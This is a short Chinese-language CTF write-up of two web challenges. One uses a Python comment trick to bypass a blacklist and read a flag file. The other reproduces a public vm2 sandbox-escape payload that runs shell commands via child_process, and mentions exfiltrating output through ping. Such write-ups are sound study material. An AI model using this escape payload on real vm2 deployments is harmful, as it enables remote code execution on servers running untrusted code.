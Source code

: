 # WEB

## intractable problem

利用注释绕过黑名单，直接读 flag

```bash
'''
flag=""
with open(__file__,"r") as f:
    flag=f.read()
print(flag[-79:-57],end="")
a='''
```

## escape-web

vm2 沙箱逃逸，从 github 找到 payload，改一下

[Sandbox Escape in vm2@3.9.19 via `Promise[@@species\]` (github.com)](https://gist.github.com/leesh3288/f693061e6523c97274ad5298eb2c74e9)

```bash
async function fn() {
    (function stack() {
        new Error().stack;
        stack();
    })();
}
p = fn();
p.constructor = {
    [Symbol.species]: class FakePromise {
        constructor(executor) {
            executor(
                (x) => x,
                (err) => { return err.constructor.constructor('return process')().mainModule.require('child_process').execSync('touch pwned'); }
            )
        }
    }
};
p.then()
```

无回显，考虑外带，bash+curl 不行，利用 ping 外带
